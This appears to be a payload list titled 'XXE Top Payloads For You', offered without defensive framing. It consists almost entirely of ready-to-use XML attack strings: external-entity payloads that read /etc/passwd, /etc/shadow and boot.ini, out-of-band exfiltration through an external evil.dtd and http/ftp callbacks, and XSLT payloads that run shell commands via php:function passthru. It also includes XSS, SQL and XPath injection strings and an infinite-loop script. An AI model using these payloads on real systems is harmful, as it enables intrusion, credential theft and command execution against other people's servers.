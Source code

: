 ## XXE Top Payloads For You.

````<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd" >````

````<?xml version="1.0" encoding="ISO-8859-1"?>````

````<!DOCTYPE xxe [<!ENTITY foo "aaaaaa">]>````

````<!DOCTYPE xxe [<!ENTITY foo "aaaaaa">]><root>&foo;</root>````

````<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE xxe [<!ENTITY foo "aaaaaa">]>````

````<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE xxe [<!ENTITY foo "aaaaaa">]><root>&foo;</root>````

````<?xml version="1.0" encoding="ISO-8859-1"?><test></test>````

````<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>````

````<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]>````

````<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/issue" >]><foo>&xxe;</foo>````

````<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/issue" >]>````

````<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/shadow" >]><foo>&xxe;</foo>````

````<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/shadow" >]>````

````<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>````

````<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]>````

````<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "http://example.com:80" >]><foo>&xxe;</foo>````

````<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "http://example:443" >]>````

````<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:////dev/random">]><foo>&xxe;</foo>````

````
<test></test><![CDATA[<test></test>]]> &foo; %foo; count(/child::node()) x' or name()='username' or 'x'='y <name>','')); phpinfo(); exit;/*</name>
````

````<![CDATA[<script>var n=0;while(true){n++;}</script>]]>````

````<![CDATA[<]]>SCRIPT<![CDATA[>]]>alert('XSS');<![CDATA[<]]>/SCRIPT<![CDATA[>]]>````

````<?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[<]]>SCRIPT<![CDATA[>]]>alert('XSS');<![CDATA[<]]>/SCRIPT<![CDATA[>]]></foo>````

````<foo><![CDATA[<]]>SCRIPT<![CDATA[>]]>alert('XSS');<![CDATA[<]]>/SCRIPT<![CDATA[>]]></foo>````

````<?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[' or 1=1 or ''=']]></foo>````

````<foo><![CDATA[' or 1=1 or ''=']]></foo>````

````<xml ID=I><X><C><![CDATA[<IMG SRC="javas]]><![CDATA[cript:alert('XSS');">]]>````

````<xml ID="xss"><I><B>&lt;IMG SRC="javas<!-- -->cript:alert('XSS')"&gt;</B></I></xml><SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN></C></X></xml><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>````

````<xml SRC="xsstest.xml" ID=I></xml><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>````

````<SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>````

````<xml SRC="xsstest.xml" ID=I></xml>````

````<HTML xmlns:xss><?import namespace="xss" implementation="http://ha.ckers.org/xss.htc"><xss:xss>XSS</xss:xss></HTML>````

````<HTML xmlns:xss><?import namespace="xss" implementation="http://ha.ckers.org/xss.htc">````

````<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl"><xsl:template match="/"><script>alert(123)</script></xsl:template></xsl:stylesheet>````

````<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl"><xsl:template match="/"><xsl:copy-of select="document('/etc/passwd')"/></xsl:template></xsl:stylesheet>````

````<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl"><xsl:template match="/"><xsl:value-of select="php:function('passthru','ls -la')"/></xsl:template></xsl:stylesheet>````

````<!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]>````

````<!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/shadow" >]>````

````<!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]>````

````<!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "http://example.com/text.txt" >]>````

````<!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:////dev/random">]>````

<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://127.0.0.1:80/?%file;'>  "> %int;<!ENTITY % param3 "<!ENTITY &#x25; exfil SYSTEM 'ftp://127.0.0.1:21/%data3;'>">````

````<!DOCTYPE xxe [ <!ENTITY % file SYSTEM "file:///etc/issue"><!ENTITY % dtd SYSTEM "http://example.com/evil.dtd">%dtd;%trick;]>````

````<!DOCTYPE xxe [ <!ENTITY % file SYSTEM "file:///c:/boot.ini"><!ENTITY % dtd SYSTEM "http://example.com/evil.dtd">%dtd;%trick;]>````

````<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/">%dtd;]><xxx/>]]></foo></soap:Body>````
